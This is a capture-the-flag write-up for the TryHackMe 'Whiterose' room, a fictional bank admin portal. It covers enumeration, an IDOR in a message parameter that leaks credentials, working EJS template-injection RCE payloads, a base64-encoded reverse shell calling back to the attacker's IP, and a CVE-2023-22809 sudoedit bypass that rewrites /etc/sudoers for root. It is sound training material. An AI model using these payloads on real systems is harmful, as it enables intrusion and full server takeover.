 ```yaml
---
title: Whiterose - TryHackMe
date: 2025-02-22
---
```


<script setup>
    import RoomCard from "../../../.vitepress/components/thm/RoomCard.vue";
</script>

<RoomCard
    roomName="Whiterose"
    roomIcon="/ctf/tryhackme/whiterose/icon-room.png"
    roomLink="https://tryhackme.com/room/whiterose"
    roomLevel="EASY"
    roomTechnology="Linux"
/>

## Challenge description

This challenge is based on the Mr. Robot episode "409 Conflict". Contains spoilers!

Go ahead and start the machine, **it may take a few minutes to fully start up.**

And oh! I almost forgot! - You will need these: `Olivia Cortez:olivi8`

## Challenge overview

In this challenge, participants are tasked with penetrating the security of a fictional bank's administrative portal.
Starting with limited information, including a set of user credentials, the goal is to explore the web application's
structure, identify vulnerabilities such as parameter manipulation and remote code execution (RCE), and ultimately
escalate privileges to obtain sensitive information.

## Enumeration

### Nmap

We begin by scanning the target machine to identify open ports and services:

```bash
$ nmap -sC -sV -v -oN whiterose.nmap 10.10.103.134
Nmap scan report for 10.10.103.134
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b907960dc4b60cd6221ae46c8eac6f7d (RSA)
|   256 baff923e0f037eda30cae3528d47d96c (ECDSA)
|_  256 5de41439ca061747935386de2b77097d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Findings:

- **Port 22**: SSH service running OpenSSH 7.6p1
- **Port 80**: HTTP service running nginx 1.14.0

### Web Enumeration

Navigating to `http://cyprusbank.thm/` displays the homepage of the web application:

![Whiterose - Home page](/ctf/tryhackme/whiterose/home.png)

The site is currently under maintenance and does not provide any useful information. Using `gobuster`, we can identify
DNS subdomains:

```bash
$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u cyprusbank.thm  -t 20 --append-domain
```

The scan reveals an `admin` subdomain:

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://cyprusbank.thm
[+] Method:          GET
[+] Threads:         20
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.cyprusbank.thm Status: 302 [Size: 28] [--> /login]

===============================================================
Finished
===============================================================
```

Navigating to `http://admin.cyprusbank.thm/` displays a login page:

![Whiterose - admin login page](/ctf/tryhackme/whiterose/login.png)

Using the provided credentials `Olivia Cortez:olivi8` logs us into the admin panel:

![Whiterose - admin panel](/ctf/tryhackme/whiterose/admin-panel.png)

Exploring the `Messages` section:

![Whiterose - Messages](/ctf/tryhackme/whiterose/messages.png)

Observing the URL of the messages, we notice a `c` parameter:

```bash
http://admin.cyprusbank.thm/messages/?c=5
```

Modifying the `c` parameter to `8` reveals a sensitive message:

![Whiterose - Sensitive message](/ctf/tryhackme/whiterose/sensitive-message.png)

We now have a new set of credentials: `Gayle Bev:p~]P@5!6;rs558:q`. Logging into the admin panel with these credentials
grants access to additional sections. In the `Search` section, searching for the user "Tyrell Wellick" reveals their
phone number:

![Whiterose - Search](/ctf/tryhackme/whiterose/search.png)

The `Settings` section is also accessible:

![Whiterose - Settings](/ctf/tryhackme/whiterose/settings.png)

Intercepting the request with `Burp Suite`:

![Whiterose - Burp Suite](/ctf/tryhackme/whiterose/settings-burp.png)

By modifying a parameter name, such as changing `password` to `password1`, the application returns an error message:

![Whiterose - Error message](/ctf/tryhackme/whiterose/error-message.png)

This error message indicates that the application use `ejs` to render the views. Looking on the web, we can find a RCE
vulnerability in `ejs` that allows us to execute arbitrary code. We can base on the following payload found on the
[Snyk website](https://security.snyk.io/vuln/SNYK-JS-EJS-2803307)

```bash
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('id');
```

Adding this payload to the request results in a SyntaxError. To prevent this, append `//` to comment out the rest of the
code:

```bash
&settings[view options][outputFunctionName]=x;global.process.mainModule.require('child_process').execSync('ls -al');//
```

Now no error is returned but your code return nothing. This is because the code is executed in the server side and we
don't
return the output from our payload:

```bash
&settings[view options][outputFunctionName]=x;return+global.process.mainModule.require('child_process').execSync('ls -al');//
```

## Reverse shell

We can use the following payload to open a reverse shell:

```bash
&settings[view options][outputFunctionName]=x;return+global.process.mainModule.require('child_process').execSync('echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjExLjEyNS4yNDYvNDQ0NCAwPiYx|base64+-d|bash');//
```

Now we can listen on our machine:

```bash
$ nc -lvnp 4444
```

And send the request to the server:

```bash
web@cyprusbank:~/app$ id
id
uid=1001(web) gid=1001(web) groups=1001(web)
```

We can now read the user flag:

```bash
web@cyprusbank:~$ cat user.txt
cat user.txt
THM{user_flag}
```

## Privilege escalation

Looking for the `sudo` permissions:

```bash
web@cyprusbank:~$ sudo -l
sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

We found on the web
this [sudoedit bypass](https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis)
post that explain how to exploit this vulnerability. We can use the following payload to get a root shell:

```bash
web@cyprusbank:~$ export EDITOR="vi -- /etc/sudoers"
web@cyprusbank:~$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Will open the `/etc/sudoers` file in `vi`. Now we can add the following line to the file under the
`root ALL=(ALL:ALL) ALL` line:

```bash
web ALL=(ALL:ALL) NOPASSWD: ALL
```

Now we can save the file and exit `vi` and execute the following command to get a root shell and get the root flag:

```bash
web@cyprusbank:~$ sudo su
root@cyprusbank:/home/web# id
uid=0(root) gid=0(root) groups=0(root)
root@cyprusbank:/home/web# cd
root@cyprusbank:~# cat root.txt
THM{root_flag}
```

## References

- [Snyk - EJS Remote Code Execution](https://security.snyk.io/vuln/SNYK-JS-EJS-2803307)
- [Vicarius - CVE-2023-22809 sudoedit bypass analysis](https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis)

